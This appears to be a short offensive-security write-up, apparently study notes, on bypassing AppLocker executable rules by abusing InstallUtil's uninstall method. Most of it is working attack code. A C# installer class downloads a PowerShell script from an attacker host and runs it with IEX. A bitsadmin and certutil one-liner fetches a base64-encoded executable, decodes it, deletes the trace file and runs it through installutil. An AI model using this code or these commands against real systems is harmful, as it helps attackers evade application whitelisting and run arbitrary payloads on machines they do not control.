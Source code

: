 ## The Need

We bypassed constrained language mode in PowerShell but ended up needing the ability to bypass the AppLocker executable rules for a C# application.

We will leverage InstallUtil, a command-line utility that allows us to install and uninstall server resources by executing the installer components in a specified assembly. Our goal is to reintroduce our PowerShell shellcode runner tradecraft in an AppLocker-protected environment.

We are only going to use the _uninstall_ method since the _install_ method requires administrative privileges to execute.

Our code will look as follows:
```Csharp
using System;
using System.Collections.Generic;
using System.Linq;
using System.Text;
using System.Threading.Tasks;
using System.Management.Automation;
using System.Management.Automation.Runspaces;
using System.Configuration.Install;

namespace CLMBypass
{
    class Program
    {
        static void Main(string[] args)
        {
            Console.WriteLine("This is the main method which is a decoy");
        }


    }
    [System.ComponentModel.RunInstaller(true)]
    public class Sample : System.Configuration.Install.Installer
    {
        public override void Uninstall(System.Collections.IDictionary savedState)
        {
            String cmd = "(New-Object System.Net.WebClient).DownloadString('http://192.168.49.135/run.ps1') | IEX;"
			// or (New-Object System.Net.WebClient).DownloadString('http://192.168.49.135/clm.exem,'C:\\Windows\\Tasks\\clm.exe')
            Runspace rs = RunspaceFactory.CreateRunspace();
            rs.Open();

            PowerShell ps = PowerShell.Create();
            ps.Runspace = rs;

            ps.AddScript(cmd);

            ps.Invoke();

            rs.Close();
        }
    }
}
```


After compiling this code, if the executable is run by administrative privileges, the message will be displayed instead of our code execution.

To execute our shellcode we can run the following command:

```
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\installutil.exe /logfile= /LogToConsole=false /U C:\Tools\Bypass.exe
```

However, to use instalutil, the executable needs to be on disk where it may detected, thus we'll obfuscate the executable while it is being downloaded with Base64 encoding and then decode it on disk.

We will store the base64 encoded executable on our attack box's web root and use the following code to download the executable, decode it, and run it.

```
bitsadmin /Transfer myJob http://192.168.49.153/CLMBypass-b64.txt C:\Windows\Tasks\enc.txt && certutil -decode C:\Windows\Tasks\enc.txt C:\Windows\Tasks\Bypass.exe && del C:\Windows\Tasks\enc.txt && C:\Windows\Microsoft.NET\Framework64\v4.0.30319\installutil.exe /logfile= /LogToConsole=false /U C:\Windows\Tasks\Bypass.exe
```
